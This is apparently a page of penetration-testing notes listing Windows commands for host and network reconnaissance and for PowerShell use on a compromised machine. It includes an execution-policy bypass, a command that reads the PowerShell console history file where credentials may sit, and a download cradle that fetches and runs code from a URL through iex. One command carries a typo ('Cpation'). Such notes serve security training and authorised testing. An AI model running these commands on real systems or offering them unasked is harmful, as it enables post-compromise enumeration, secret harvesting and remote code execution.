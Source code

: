 ## Env Commands For Host & Network Recon
```shell-session
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Cpation,Description,HotFixID,InstalledOn
ipconfig /all
set
echo %USERDOMAIN%
echo %logonserver%
```
OR
```shell-session
systeminfo
```

## Harnessing PowerShell
```shell-session
Get-Module
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-ChildItem Env: | ft Key,Value
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

